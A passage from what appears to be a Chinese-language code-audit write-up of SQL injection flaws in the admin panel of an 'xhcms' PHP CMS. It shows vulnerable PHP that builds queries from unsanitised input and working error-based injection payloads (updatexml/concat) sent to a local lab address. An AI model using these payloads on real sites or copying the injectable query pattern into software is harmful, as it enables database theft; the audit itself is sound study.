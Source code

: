 ```

if ($save==1){
	
if ($name==""){
echo "<script>alert('抱歉，链接名称不能为空。');history.back()</script>";
exit;
}
if ($url==""){
echo "<script>alert('抱歉，链接地址不能为空。');history.back()</script>";
exit;
}

$query = "UPDATE link SET 
name='$name',
url='$url',
mail='$mail',
jieshao='$jieshao',
xs='$xs',
date=now()
WHERE id='$id'";
@mysql_query($query) or die('修改错误：'.mysql_error());
echo "<script>alert('亲爱的，链接已经成功编辑。');location.href='?r=linklist'</script>"; 
exit;
}
?>
```

这里还是只有单引号闭合,利用方式和之前的差不多,只需要GET一个id参数即可,甚至不用去控type参数就可以直接注入

![image-20210923232257934](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210923232257934.png)

```
http://192.168.121.130/xhcms/admin/?r=editlink&type=2&id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

也可以在post参数那里直接注入

```
1' or updatexml(1,concat(0x7e,(select database())),0) or'
```

![image-20210925145226763](/Users/DawnT0wn/Library/Application Support/typora-user-images/image-20210925145226763.png)

这里在后面需要加上`or'`才能注入,因为他这里有很多变量需要联系起来,而且不用注释符

当然上面那个文件也可以这么注入

### /admin/files/editsoft.php

一样的get一个id参数可以注入

```
1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```
